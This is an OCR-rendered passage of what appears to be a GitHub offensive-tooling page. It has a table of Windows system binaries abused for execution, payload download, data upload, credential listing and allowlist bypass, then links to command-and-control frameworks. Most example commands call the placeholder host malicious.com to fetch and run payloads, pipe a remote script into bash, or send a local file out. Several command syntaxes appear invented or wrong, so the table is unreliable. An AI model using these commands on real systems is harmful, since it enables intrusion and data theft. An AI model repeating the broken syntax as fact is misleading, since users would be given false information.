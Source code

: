| --------------------- | -------- | --------------- |
| `AddinUtil.exe` | Execute | `AddinUtil.exe /execute /payload:url` |
| `AppInstaller.exe` | Download | `AppInstaller.exe /download /url:http://malicious.com/payload` |
| `Aspnet_Compiler.exe` | AWL Bypass | `Aspnet_Compiler.exe /path:C:\malicious_code` |
| `At.exe` | Execute | `At.exe 12:00 /every:M,T,W,Th,F "C:\malicious\malware.exe"` |
| `Atbroker.exe` | Execute | `Atbroker.exe /start /app:C:\malicious\malware.exe` |
| `Bash.exe` | Execute | `Bash.exe -c 'curl http://malicious.com/script.sh | bash'` |
| `Bitsadmin.exe` | Download | `Bitsadmin.exe /transfer myDownloadJob /download /priority normal http://malicious.com/payload.exe C:\payload.exe` |
| `CertOC.exe` | Execute | `CertOC.exe -urlcache -split -f http://malicious.com/payload.exe payload.exe` |
| `CertReq.exe` | Download | `CertReq.exe -retrieve http://malicious.com/certificate.cer` |
| `Certutil.exe` | Download | `Certutil.exe -urlcache -split -f http://malicious.com/payload.exe payload.exe` |
| `Cmd.exe` | Execute | `Cmd.exe /c "C:\malicious\malware.exe"` |
| `Cmdkey.exe` | Credentials | `Cmdkey.exe /list > C:\output.txt` |
| `cmdl32.exe` | Download | `cmdl32.exe /download http://malicious.com/payload.exe C:\payload.exe` |
| `Cmstp.exe` | Execute | `Cmstp.exe /ni /s C:\malicious\malware.inf` |
| `Colorcpl.exe` | Copy | `Colorcpl.exe /copy C:\malicious\malware.exe C:\Windows\System32\` |
| `ConfigSecurityPolicy.exe` | Upload | `ConfigSecurityPolicy.exe /upload C:\data.txt http://malicious.com/upload` |
| `Conhost.exe` | Execute | `Conhost.exe C:\malicious\malware.exe` |
| `Control.exe` | Execute | `Control.exe /name Microsoft.WindowsUpdate` |
| `Csc.exe` | Compile | `Csc.exe /out:Malware.exe Malware.cs` |
| `Cscript.exe` | Execute | `Cscript.exe //E:JScript C:\malicious\script.js` |



## merlin

https://github.com/Ne0nd0g/merlin


## kubesploit

https://github.com/cyberark/kubesploit

## phpsploit

https://github.com/nil0x42/phpsploit

## blackmamba
